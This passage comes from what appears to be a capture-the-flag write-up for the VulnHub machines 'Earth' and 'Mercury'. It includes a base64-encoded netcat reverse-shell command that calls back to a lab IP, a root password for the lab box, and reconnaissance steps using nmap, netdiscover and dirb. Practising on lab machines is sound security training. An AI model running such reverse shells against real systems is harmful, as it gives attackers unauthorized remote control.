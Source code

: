 ```echo ‘nc -e /bin/bash 192.168.1.9 4444’ | base64```


**7. Actions on Objective**


Now go to vulnhub machine. 
Login as ‘root’ with the password : Earth
Check the directory and look for the flag: ```ls```
Check the ‘root_flag.txt’


<img width="991" height="1113" alt="image" src="https://github.com/user-attachments/assets/69632922-50e4-41f0-a225-4815a771cb46" />


<br></br>
---
<br></br>

## Mercury


**1. Reconnaissance**

Objective: Identify the target system and gather initial network information. Compare the mac address from network scan result and the actual MAC address in Virtual machine :

Nmap / ZenMap for windows – Active scanning and port enumeration


Netdiscover for Kali – Passive network discovery

<img width="1125" height="383" alt="image" src="https://github.com/user-attachments/assets/d5fb6421-ab8d-40cd-a4c5-1538bad788f5" />


<img width="1013" height="113" alt="image" src="https://github.com/user-attachments/assets/c3fabafd-8ca6-4206-96be-cacbee6f7ddd" />


<img width="1125" height="316" alt="image" src="https://github.com/user-attachments/assets/4080b5cb-f9b7-47ea-9e15-6b0f541082af" />



<img width="1125" height="330" alt="image" src="https://github.com/user-attachments/assets/96668e99-b99a-49c4-9b13-412d9c3e8e46" />



Using ‘dirb’ and ‘Nmap’. It is confirmed that there is ‘robots.txt’ but disallows entry.




**Key Findings **



IP : 192.168.1.201



```
